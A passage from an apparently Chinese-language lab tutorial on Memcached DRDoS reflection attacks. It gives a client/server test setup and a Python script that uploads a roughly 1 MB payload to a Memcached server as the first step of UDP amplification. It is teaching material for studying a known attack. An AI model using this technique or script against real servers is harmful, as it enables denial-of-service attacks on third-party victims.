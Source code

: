     key：键值 key-value 结构中的 key，用于查找缓存值。




攻击步骤
--

到了这里，我们接下来就是如何利用这个过程实现DRDoS反射拒绝服务攻击。  
实验环境：    

    客户端：
            win10 Thinkpad X220T 笔记本一台
            192.168.1.109
            python3.6、wireshark、gitbash
    服务端：
            Centos T_cloud  腾讯云服务器一台
            123.207.162.113
            memcached-1.2.2、libevent-1.3、tcpdump-4.1

**上传有效载荷**

思路是这样的：我们先上传指定数据到远程开放服务器Memcached上面，然后我们再去Memcached服务器请求查询数据上一步存储的数据，（这一步很关键，我们只能利用UDP协议进行反射，后面说明一下为什么。）这样就可以将数据通过Memcached服务器反射到目标受害机器上了。这里我们可以自己手动编写程序实现上传有效载荷到远程服务器，等待上传完了我们就可以进行UDP反射攻击了。  

```
#!/usr/bin/env python3
#-*- coding:utf-8 -*-

from socket import *

HOST ='127.0.0.1'
PORT = 11211
BUFFSIZE=2048
ADDR = (HOST,PORT)
memcachedClient = socket(AF_INET,SOCK_STREAM)

memcachedClient.connect(ADDR)
data = "set a 0 0 1048501" + "\r\n" + 'a' * 1048501 + "\r\n"
#经查阅资料，加手动测试，初步认为size最大值为 1048501
memcachedClient.sendall(data.encode())
print(memcachedClient.recv(BUFFSIZE).decode())
memcachedClient.close()  
```


上传成功后，我们来看一看设置的是否是预期的值。  
